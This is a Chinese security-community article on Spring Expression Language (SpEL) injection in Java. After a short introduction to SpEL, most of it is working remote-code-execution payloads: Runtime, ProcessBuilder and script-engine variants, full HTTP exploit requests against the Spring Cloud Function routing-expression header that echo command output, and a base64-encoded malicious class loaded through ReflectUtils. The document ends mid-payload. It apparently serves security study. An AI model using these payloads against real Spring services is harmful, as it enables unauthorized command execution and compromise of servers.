# JAVA安全之SpEL表达式执行-先知社区

> **来源**: https://xz.aliyun.com/news/16342  
> **文章ID**: 16342

---

### 文章前言

Spring表达式语言(Spring Expression Language，简称SpEL)是一种功能强大的表达式语言，它可以用于在Spring配置中动态地访问和操作对象属性、调用方法、执行计算等，SPEL的设计目标是让Spring应用程序中的bean配置和运行时操作更加灵活和可扩展，其语法和OGNL、MVEL等表达式语法类似，本篇文章主要用于填补JAVA安全系列中的SPEL表达式注入专题

### 使用方法

SpEL表达式的使用方式主要有以下三种：

#### @Value动态注入值

在Spring框架中我们可以使用@Value注解结合SpEL表达式来动态注入值

```
package org.example.spelsecstudy;

import org.springframework.beans.factory.annotation.Value;
import org.springframework.stereotype.Component;

@Component
public class ArithmeticService {

    // 使用SpEL进行加法运算
    @Value("#{10 + 20}")
    private int sum;

    // 使用SpEL进行减法运算
    @Value("#{30 - 15}")
    private int difference;

    // 使用SpEL进行乘法运算
    @Value("#{5 * 6}")
    private int product;

    // 使用SpEL进行除法运算
    @Value("#{40 / 8}")
    private int quotient;

    // 使用SpEL进行求余运算
    @Value("#{10 % 3}")
    private int remainder;

    public void displayResults() {
        System.out.println("Sum: " + sum);
        System.out.println("Difference: " + difference);
        System.out.println("Product: " + product);
        System.out.println("Quotient: " + quotient);
        System.out.println("Remainder: " + remainder);
    }
}

```

#### XML配置文件中使用

在Spring中我们可以直接在XML配置文件中利用SpEL表达式来设置bean属性、进行条件注入和定义默认值等，简易示例如下：

```
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
           http://www.springframework.org/schema/beans/spring-beans.xsd">

    <!-- 定义 Properties Bean -->
    <bean id="appConfig" class="java.util.Properties">
        <property name="someProperty" value="#{systemProperties['user.name']}"/>
    </bean>

    <!-- 定义 Service Bean -->
    <bean id="greetingService" class="com.example.GreetingService">
        <property name="greetingMessage" value="#{'Hello, ' + appConfig.someProperty}"/>
    </bean>
</beans>

```

#### 代码块中使用表达式

在Spring代码块中使用SpEL(Spring Expression Language)表达式的过程涉及以下几个步骤(第三步可选)：

* 创建解析器：使用ExpressionParser接口表示解析器，提供SpelExpressionParser默认实现
* 解析表达式：使用ExpressionParser的parseExpression来解析相应的表达式为Expression对象
* 构造上下文：准备比如变量定义等等表达式需要的上下文数据
* 求表达式值：通过Expression接口的getValue方法根据上下文获得表达式值

简易示例代码如下所示：

```
package org.example.spelsecstudy;

import org.springframework.expression.EvaluationContext;
import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.expression.spel.support.StandardEvaluationContext;

public class SpringHelloworld {
    public static void main(String[] args) {
        // 创建解析器
        ExpressionParser parser = new SpelExpressionParser();
        // 解析表达式
        Expression expression = parser.parseExpression("('Hello' + ' Al1ex').concat(#end)");
        // 创建上下文
        EvaluationContext context = new StandardEvaluationContext();
        // 定义变量
        context.setVariable("end", "!");
        // 求表达式值
        System.out.println(expression.getValue(context));
    }
}

```

执行结果如下所示：



### 漏洞原理

SpEL表达式语言主要用于将表达式解析为AST语法树并计算每个树节点，由于SpEL表达式可以操作类及其对应的方法，所以当用户可以控制输入的表达式并且可以绕过黑名单限制时便可以达到RCE的目的，简易示例如下：

```
package org.example.spelsecstudy;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class ExecuteTest {
    public static void main(String[] args) throws Exception {
        String spel = "T(java.lang.Runtime).getRuntime().exec(\"calc\")";
        ExpressionParser parser = new SpelExpressionParser();
        Expression expression = parser.parseExpression(spel);
        System.out.println(expression.getValue());
    }
}

```

执行结果如下所示：



### 执行方式

#### java.lang.Runtime

示例代码如下：

```
package org.example.spelsecstudy;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class ExecuteTest {
    public static void main(String[] args) throws Exception {
        String spel = "T(java.lang.Runtime).getRuntime().exec(\"calc\")"; 
        ExpressionParser parser = new SpelExpressionParser(); //创建解析器
        Expression expression = parser.parseExpression(spel); //解析表达式
        System.out.println(expression.getValue()); //弹出计算器
    }
}

```

执行结果如下：



扩展补充载荷：

```
package org.example.spelsecstudy;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class ExecuteTest {
    public static void main(String[] args) throws Exception {
        String spel = "T(Runtime).getRuntime().exec(\"calc\")";
        ExpressionParser parser = new SpelExpressionParser(); //创建解析器
        Expression expression = parser.parseExpression(spel); //解析表达式
        System.out.println(expression.getValue()); //弹出计算器
    }
}

```

##### java.lang.ProcessBuilder

示例代码如下：

```
package org.example.spelsecstudy;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class ExecuteTest {
    public static void main(String[] args) throws Exception {
        String spel = "new java.lang.ProcessBuilder(new String[]{\"calc\"}).start()";
        ExpressionParser parser = new SpelExpressionParser(); //创建解析器
        Expression expression = parser.parseExpression(spel); //解析表达式
        System.out.println(expression.getValue()); //弹出计算器
    }
}

```

命令执行结果:



扩展补充：

```
package org.example.spelsecstudy;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class ExecuteTest {
    public static void main(String[] args) throws Exception {
        String spel = "new ProcessBuilder({'calc'}).start()";
        ExpressionParser parser = new SpelExpressionParser(); //创建解析器
        Expression expression = parser.parseExpression(spel); //解析表达式
        System.out.println(expression.getValue()); //弹出计算器
    }
}

```

#### javax.script.ScriptEngineManager

首先获取JS引擎：

```
package org.example.spelsecstudy;

import javax.script.ScriptEngineFactory;
import javax.script.ScriptEngineManager;
import java.util.List;

public class ExecuteTest {
    public static void main(String[] args) {
        ScriptEngineManager manager = new ScriptEngineManager();
        List<ScriptEngineFactory> factories = manager.getEngineFactories();
        for (ScriptEngineFactory factory: factories){
            System.out.printf(
                    "Name: %s%n" + "Version: %s%n" + "Language name: %s%n" +
                            "Language version: %s%n" +
                            "Extensions: %s%n" +
                            "Mime types: %s%n" +
                            "Names: %s%n",
                    factory.getEngineName(),
                    factory.getEngineVersion(),
                    factory.getLanguageName(),
                    factory.getLanguageVersion(),
                    factory.getExtensions(),
                    factory.getMimeTypes(),
                    factory.getNames()
            );
        }
    }
}

```

根据执行结果中的Names我们知道了所有的JS引擎名称，故getEngineByName的参数可以填[nashorn, Nashorn, js, JS, JavaScript, javascript, ECMAScript, ecmascript]



构建命令执行代码示例如下：

```
package org.example.spelsecstudy;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class ExecuteTest {
    public static void main(String[] args) {
        String spel = "T(javax.script.ScriptEngineManager).getEngineByName(\"nashorn\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";
        ExpressionParser parser = new SpelExpressionParser(); //创建解析器
        Expression expression = parser.parseExpression(spel); //解析表达式
        System.out.println(expression.getValue()); //弹出计算器
    }
}

```

命令执行时发生报错：



这里是因为getEngineByName不是static方法所以会报错，于是我们直接new来执行：

```
package org.example.spelsecstudy;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class ExecuteTest {
    public static void main(String[] args) {
        String spel = "new javax.script.ScriptEngineManager().getEngineByName(\"nashorn\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";
        ExpressionParser parser = new SpelExpressionParser(); //创建解析器
        Expression expression = parser.parseExpression(spel); //解析表达式
        System.out.println(expression.getValue()); //弹出计算器
    }
}

```

执行结果如下所示：



同理JavaScript也可以：

```
package org.example.spelsecstudy;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class ExecuteTest {
    public static void main(String[] args) {
        String spel = "new javax.script.ScriptEngineManager().getEngineByName(\"javascript\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";
        ExpressionParser parser = new SpelExpressionParser(); //创建解析器
        Expression expression = parser.parseExpression(spel); //解析表达式
        System.out.println(expression.getValue()); //弹出计算器
    }
}

```


### 回显研究

下面的测试基于"Spring Cloud Function v3.x SpEL RCE"进行漏洞回显研究构造测试：

#### RequestContextHolder

初始化载荷如下所示，这里需要注意Window与Linux的不一致性：

```
POST /functionRouter HTTP/1.1
Host: 192.168.17.1:8080
spring.cloud.function.routing-expression:T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(java.net.URLDecoder).decode("java.lang.Runtime.getRuntime().exec('cmd.exe /c ipconfig').getInputStream()")),T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream())
Connection: close
Content-Length: 3

any

```

URL编码后构造的完整载荷如下：

```
POST /functionRouter HTTP/1.1
Host: 192.168.17.1:8080
spring.cloud.function.routing-expression:T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(java.net.URLDecoder).decode("%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%63%6d%64%2e%65%78%65%20%2f%63%20%69%70%63%6f%6e%66%69%67%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29")),T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream())
Connection: close
Content-Length: 3

any

```



#### RequestContextHolder2

```
POST /functionRouter HTTP/1.1
Host: 192.168.17.1:8080
spring.cloud.function.routing-expression:T(org.springframework.web.context.request.RequestContextHolder).getRequestAttributes().getResponse().addHeader("Al1ex","success")
Connection: close
Content-Length: 3

any

```



```
POST /functionRouter HTTP/1.1
Host: 192.168.17.1:8080
spring.cloud.function.routing-expression:T(org.springframework.web.context.request.RequestContextHolder).getRequestAttributes().getResponse().addHeader(new java.util.Scanner(new java.lang.ProcessBuilder("ipconfig").start().getInputStream(),"GBK").useDelimiter("al1ex").next(),"true")
Connection: close
Content-Length: 3

any

```



```
POST /functionRouter HTTP/1.1
Host: 192.168.17.1:8080
spring.cloud.function.routing-expression: T(org.springframework.web.context.request.RequestContextHolder).getRequestAttributes().getResponse().addHeader(new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("whoami").getInputStream(), "GBK").useDelimiter("asfsfsdfsf").next(),"true")
Connection: close
Content-Length: 3

any

```



#### Loadclass

编译al1ex.java

```
public class al1ex{
    static {
        try{
            Runtime.getRuntime().exec("cmd.exe /c calc.exe");
        }catch (Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] args){

    }
}

```



base64加密：

```
import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.util.Base64;
import java.util.Base64.Encoder;
/*
 * 加密class文件
 */
public class encode {
    public static void main(String args[]) {
        byte[] buffer = null;
        String filepath = "C:\\Users\\Al1ex\\Desktop\\java-object-searcher-master\\al1ex.class";
        try {
            FileInputStream fis = new FileInputStream(filepath);
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            byte[] b = new byte[1024];
            int n;
            while((n = fis.read(b))!=-1) {
                bos.write(b,0,n);
            }
            fis.close();
            bos.close();
            buffer = bos.toByteArray();
        }catch(Exception e) {
            e.printStackTrace();
        }
        Encoder encoder = Base64.getEncoder();
        String value = encoder.encodeToString(buffer);
        System.out.println(value);
    }
}

```



```
yv66vgAAADQAIwoACAAUCgAVABYIABcKABUAGAcAGQoABQAaBwAbBwAcAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEABG1haW4BABYoW0xqYXZhL2xhbmcvU3RyaW5nOylWAQAIPGNsaW5pdD4BAA1TdGFja01hcFRhYmxlBwAZAQAKU291cmNlRmlsZQEACmFsMWV4LmphdmEMAAkACgcAHQwAHgAfAQATY21kLmV4ZSAvYyBjYWxjLmV4ZQwAIAAhAQATamF2YS9sYW5nL0V4Y2VwdGlvbgwAIgAKAQAFYWwxZXgBABBqYXZhL2xhbmcvT2JqZWN0AQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAD3ByaW50U3RhY2tUcmFjZQAhAAcACAAAAAAAAwABAAkACgABAAsAAAAdAAEAAQAAAAUqtwABsQAAAAEADAAAAAYAAQAAAAEACQANAA4AAQALAAAAGQAAAAEAAAABsQAAAAEADAAAAAYAAQAAAAsACAAPAAoAAQALAAAATwACAAEAAAASuAACEgO2AARXpwAISyq2AAaxAAEAAAAJAAwABQACAAwAAAAWAAUAAAAEAAkABwAMAAUADQAGABEACAAQAAAABwACTAcAEQQAAQASAAAAAgAT

```

最终构造载荷如下：

```
POST /functionRouter HTTP/1.1
Host: 192.168.17.1:8080
spring.cloud.function.routing-expression:T(org.springframework.cglib.core.ReflectUtils).defineClass('al1ex',T(com.sun.org.apache.xml.internal.security.utils.Base64).decode('yv66vgAAADQAIwoACAAUCgAVABYIABcKABUAGAcAGQoABQAaBwAbBwAcAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEABG1haW4BABYoW0xqYXZhL2xhbmcvU3RyaW5nOylWAQAIPGNsaW5pdD4BAA1TdGFja01hcFRhYmxlBwAZAQAKU291cmNlRmlsZQEACmFsMWV4LmphdmEMAAkACgcAHQwAHgAfAQATY21kLmV4ZSAvYyBjYWxjLmV4ZQwAIAAhAQATamF2YS9sYW5nL0V4Y2VwdGlvbgwAIgAKAQAFYWwxZXgBABBqYXZhL2xhbmcvT2JqZWN0AQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAD3ByaW50U3RhY2tUcmFjZQAhAAcACAAAAAAAAwABAAkACgABAAsAAAAdAAEAAQAAAAUqtwABsQAAAAEADAAAAAYAAQAAAAEACQANAA4AAQALAAAAG